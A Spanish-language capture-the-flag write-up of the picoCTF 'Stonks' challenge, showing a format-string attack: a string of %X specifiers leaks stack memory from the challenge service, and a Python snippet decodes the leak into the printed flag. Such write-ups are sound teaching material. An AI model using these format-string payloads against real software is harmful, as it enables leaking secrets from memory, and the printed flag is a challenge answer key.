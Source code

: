 # Stonks
## Descripcipción
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/62f47b5b65ec7eadb96c4e34f016f68d/vuln.c) `nc mercury.picoctf.net 53437`
## Pistas
- Okay, maybe I'd believe you if you find my API key.
## Solucion
```
(base) ┌──(alexia㉿alexHM)-[~/Downloads]
└─$ nc mercury.picoctf.net 53437
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X
Buying stonks with token:
82703D0804B00080489C3F7EC5D80FFFFFFFF1826E160F7ED3110F7EC5DC70826F180382703B082703D06F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E3463646261653532FFE4007DF7F00AF8F7ED3440B0F4100010F7D62CE9F7ED40C0F7EC55C0F7EC5000FFE4F978F7D5368DF7EC55C08048ECA
Portfolio as of Sat May 13 01:04:40 UTC 2023


3 shares of PPQ
10 shares of OIV
1 shares of EGST
48 shares of RXER
72 shares of RJ
24 shares of R
123 shares of QYM
Goodbye!
______________________________________________________________________________
								python
______________________________________________________________________________
Python 3.10.10 (main, Mar 21 2023, 18:45:11) [GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> s='ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿä'
>>> for x in range(0,len(s),4):
...     print(s[x+3]+s[x+2]+s[x+1]+s[x],end='')
... 
Traceback (most recent call last):
  File "<stdin>", line 2, in <module>
IndexError: string index out of range
picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea>>> 
```
## Bandera
picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}
## Notas adicionales
## Referencias



